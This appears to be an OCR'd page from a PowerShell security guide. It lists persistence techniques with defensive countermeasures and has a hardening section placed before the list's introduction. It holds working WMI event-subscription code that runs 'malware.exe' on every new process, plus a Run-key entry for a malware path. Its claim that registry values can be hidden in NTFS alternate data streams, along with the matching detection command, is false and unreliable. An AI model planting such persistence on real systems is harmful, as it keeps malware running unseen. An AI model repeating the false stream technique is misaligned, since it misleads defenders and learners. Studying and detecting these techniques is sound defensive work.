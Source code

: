 
### **How to Defend Against "Unstoppable" Commands**  
1. **Layered Security**:  
   - **EDR/XDR**: Tools like CrowdStrike or Microsoft Defender for Endpoint.  
   - **Network Segmentation**: Limit lateral movement.  
2. **Harden PowerShell**:  
   ```powershell  
   Set-ExecutionPolicy Restricted  
   $ExecutionContext.SessionState.LanguageMode = "ConstrainedLanguage"  
   ```  
3. **Enable Logging**:  
   ```powershell  
   Set-ItemProperty -Path "HKLM:\Software\Policies\Microsoft\Windows\PowerShell\ScriptBlockLogging" -Name "EnableScriptBlockLogging" -Value 1  
   ```  
4. **Patch & Update**: Apply Windows updates and disable legacy protocols (e.g., NTLM, SMBv1).  

---





Here’s a curated list of **advanced, lesser-known PowerShell commands and techniques** with real-world applications in cybersecurity, paired with defensive countermeasures. These highlight PowerShell’s depth and potential risks, while emphasizing ethical use:

---

### **1. Stealthy Persistence Mechanisms**
#### **A. Hidden Registry Run Keys (NTFS Alternate Data Streams)**
```powershell
# Store malware path in a hidden ADS stream
Set-ItemProperty -Path "HKLM:\Software\Microsoft\Windows\CurrentVersion\Run" -Name "Update" -Value "C:\malware.exe" -Stream "EvilStream"
```
- **Purpose**: Hides persistence mechanisms from standard registry viewers.
- **Defense**:  
  ```powershell
  # Detect hidden streams
  Get-Item -Path "HKLM:\Software\Microsoft\Windows\CurrentVersion\Run" -Stream *
  ```
  - Use tools like **Sysinternals Autoruns** with stream-scanning enabled.

#### **B. WMI Event Subscription**
```powershell
# Trigger payload on process creation
$FilterArgs = @{Name='MaliciousFilter'; EventNameSpace='root\CimV2'; Query="SELECT * FROM __InstanceCreationEvent WITHIN 5 WHERE TargetInstance ISA 'Win32_Process'"};
$Filter = New-CimInstance -Namespace root/subscription -ClassName __EventFilter -Property $FilterArgs;
$Consumer = New-CimInstance -Namespace root/subscription -ClassName CommandLineEventConsumer -Property @{Name='MaliciousConsumer'; CommandLineTemplate="cmd.exe /c malware.exe"};
New-CimInstance -Namespace root/subscription -ClassName __FilterToConsumerBinding -Property @{Filter=$Filter; Consumer=$Consumer};
```
- **Purpose**: Executes code when specific events (e.g., new processes) occur.
- **Defense**:  
  ```powershell
  # Audit WMI subscriptions
  Get-CimInstance -Namespace root/subscription -ClassName __EventFilter
  Get-CimInstance -Namespace root/subscription -ClassName CommandLineEventConsumer
  ```

---
